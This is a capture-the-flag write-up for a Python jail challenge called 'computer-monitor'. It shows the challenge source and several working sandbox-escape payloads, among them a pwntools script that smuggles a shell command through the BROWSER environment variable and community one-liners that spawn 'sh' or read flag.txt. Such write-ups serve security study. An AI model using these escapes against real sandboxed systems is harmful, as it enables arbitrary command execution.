 # computer-monitor

```
so i bought a computer monitor from the store recently for my computer but i think now i need to buy a new computer as well

nc challs2.pyjail.club 28684
```

Attachment:

```python
#!/usr/local/bin/python3

import sys
from os import _exit

sm = sys.monitoring
sm.use_tool_id(2, 'computer-monitor')

inp = input('> ')
code = compile(inp, '<string>', 'exec')

exit_hook = lambda *a: _exit(0)
sm.set_local_events(2, code, sm.events.BRANCH + sm.events.CALL)
sm.register_callback(2, sm.events.BRANCH, exit_hook)
sm.register_callback(2, sm.events.CALL, exit_hook)
exec(code, {}, {})
```

It attachs `BRANCH` and `CALL` hooks to our code. However, `import` is not restricted. Following [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/), we can get shell if we have access to environ and `import`:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs2.pyjail.club", 28684)
p.recvuntil(b"> ")
p.sendline(b"""import os;os.environ['BROWSER']='/bin/sh -c "cat flag.txt" #%s';import antigravity""")
p.interactive()
```

Flag: `jail{i_am_proto_your_security_is_my_motto_install_me_on_your_computer_to_protect_your_data_better_f6b37a6e6d0b0af2b5da77a61cd0af7c}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf): `import sys; sys.modules['__main__'].__dict__['_exit']=int; print(open('flag.txt').read())`. A similar solution by @Crazyman on Discord: `import __main__; __main__._exit = lambda *a: 0; f = open('flag.txt'); print(f.read())`.

@maple3142 on Discord provides another solution:

```python
import os
__builtins__["__import__"] = lambda *a, os=os: os.system("sh")
import x
```

@Hiumee on Discord:

```python
help.__class__.__getitem__ = eval
help['__import__("os").system("sh")']
```
